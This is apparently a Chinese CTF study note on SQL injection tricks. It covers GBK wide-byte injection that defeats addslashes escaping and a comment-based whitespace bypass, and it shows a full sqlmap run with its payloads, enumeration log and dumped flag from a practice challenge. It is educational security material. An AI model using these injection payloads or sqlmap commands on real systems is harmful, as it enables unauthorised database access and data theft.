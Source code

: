 SQL注入小技巧
================================

宽字节注入
--------------------------------
- 例题: ``http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1`` 

::

		%df'被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了%df\’，
		其中\的十六进制是%5C,那么现在%df\'=%df%5c%27,如果程序的默认字符集是GBK等宽字节字符集，
		则MySQL用GBK的编码时,会认为%df%5c是一个宽字符，也就是縗’，也就是说:%df\'=%df%5c%27=縗'，
		因为gbk是多字节编码,他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，
		而’逃逸了出来，有了单引号就好注入了.

		http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df'

		--threads 10	//如果你玩过 msfconsole的话会对这个很熟悉 sqlmap线程最高设置为10
		--level 3 	//sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP 
				Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高可到5
		--risk 3 	// 执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
		--search 	//后面跟参数 -D -T -C 搜索列（S），表（S）和或数据库名称（S） 如果你脑子够聪明，
				应该知道库列表名中可能会有ctf,flag等字样.


- 执行 ``sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27" --search -C flag --level 3 --risk 1 --thread 10`` 

::

		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

		[*] starting at 05:36:28

		[05:36:29] [WARNING] it appears that you have provided tainted parameter values ('id=1%df'') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
		are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
		[05:36:30] [INFO] resuming back-end DBMS 'mysql'
		[05:36:30] [INFO] testing connection to the target URL
		[05:36:31] [INFO] heuristics detected web page charset 'ISO-8859-2'
		[05:36:31] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
		sqlmap resumed the following injection point(s) from stored session:
		---
		Parameter: id (GET)
			Type: boolean-based blind
			Title: AND boolean-based blind - WHERE or HAVING clause
			Payload: id=1%df' AND 5642=5642-- jbOi

			Type: AND/OR time-based blind
			Title: MySQL >= 5.0.12 AND time-based blind
			Payload: id=1%df' AND SLEEP(5)-- YtXh
		---
		[05:36:31] [INFO] the back-end DBMS is MySQL
		back-end DBMS: MySQL >= 5.0.12
		do you want sqlmap to consider provided column(s):
		[1] as LIKE column names (default)
		[2] as exact column names
		> 1
		[05:36:33] [INFO] searching columns LIKE 'flag' across all databases
		[05:36:33] [INFO] fetching number of databases with tables containing columns LIKE 'flag' across all databases
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 14
		[05:36:33] [INFO] resumed: sae-chinalover
		[05:36:33] [INFO] fetching number of tables containing columns LIKE 'flag' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: ctf4
		[05:36:33] [INFO] fetching columns LIKE 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: flag
		columns LIKE 'flag' were found in the following databases:
		Database: sae-chinalover
		Table: ctf4
		[1 column]
		+--------+
		| Column |
		+--------+
		| flag   |
		+--------+

		do you want to dump entries? [Y/n] y
		which database(s)?
		[a]ll (default)
		[sae-chinalover]
		[q]uit
		>
		which table(s) of database 'sae-chinalover'?
		[a]ll (default)
		[ctf4]
		[s]kip
		[q]uit
		>
		[05:36:36] [INFO] fetching entries of column(s) 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] fetching number of column(s) 'flag' entries for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] resumed: 1
		[05:36:36] [INFO] retrieving the length of query output
		[05:36:36] [INFO] resumed: 15
		[05:36:36] [INFO] resumed: nctf{gbk_3sqli}
		Database: sae-chinalover
		Table: ctf4
		[1 entry]
		+-----------------+
		| flag            |
		+-----------------+
		| nctf{gbk_3sqli} |
		+-----------------+

		[05:36:36] [INFO] table '`sae-chinalover`.ctf4' dumped to CSV file 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com\dump\sae-chinalover\ctf4.csv'
		[05:36:36] [INFO] fetched data logged to text files under 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com'

		[*] shutting down at 05:36:36

- sqlmap脚本
	--tamper "unmagicquotes.py"

空格绕过
-----------------------------------------
- 注释绕过
	``admin"/**/or/**/1=1'``
- sqlmap脚本
	--tamper=space2comment